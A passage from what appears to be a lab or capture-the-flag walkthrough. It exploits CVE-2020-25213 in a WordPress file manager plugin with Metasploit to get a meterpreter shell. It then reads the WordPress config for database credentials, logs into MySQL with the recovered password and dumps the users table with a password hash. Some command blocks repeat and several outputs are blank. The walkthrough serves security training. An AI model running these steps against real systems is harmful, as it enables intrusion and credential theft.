



4.1 Using an exploit
1. Let's search in “Metasploit” an exploit.
$msfconsole
msf6 > search CVE-2020-25213
Output:

2. Try to use this exploit running the following command in “Metasploit”.
msf6 > use 0
msf6 exploit(multi/http/wp_file_manager_rce) > show options
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 192.168.12.19
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 192.168.12.10
msf6 exploit(multi/http/wp_file_manager_rce) > set TARGETURI /blog
msf6 exploit(multi/http/wp_file_manager_rce) > exploit
msf6 exploit(multi/http/wp_file_manager_rce) > show options
msf6 exploit(multi/http/wp_file_manager_rce) > set RHOSTS 192.168.12.19
msf6 exploit(multi/http/wp_file_manager_rce) > set LHOST 192.168.12.10
msf6 exploit(multi/http/wp_file_manager_rce) > set TARGETURI /blog
msf6 exploit(multi/http/wp_file_manager_rce) > exploit
Output:

We got a meterpreter.
3. Let's take a look around to see what we can find. We know there is a “wordpress” installation, so let's find the database credentials and take a look in there to see what we can find.
meterpreter > shell
cd /etc/wordpress
cat config-default.php | grep DB
cd /etc/wordpress
cat config-default.php | grep DB
Output:

4. Run “mysql” in order to see the database data.
mysql -u root -p
Enter password: mySecr3tPass
USE wordpress;
SELECT * FROM wp_users
quit
Enter password: mySecr3tPass
USE wordpress;
SELECT * FROM wp_users
quit
Output:
ID user_login user_pass user_nicename user_email
1 hagrid98 $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. wp-admin hagrid98@localhost.local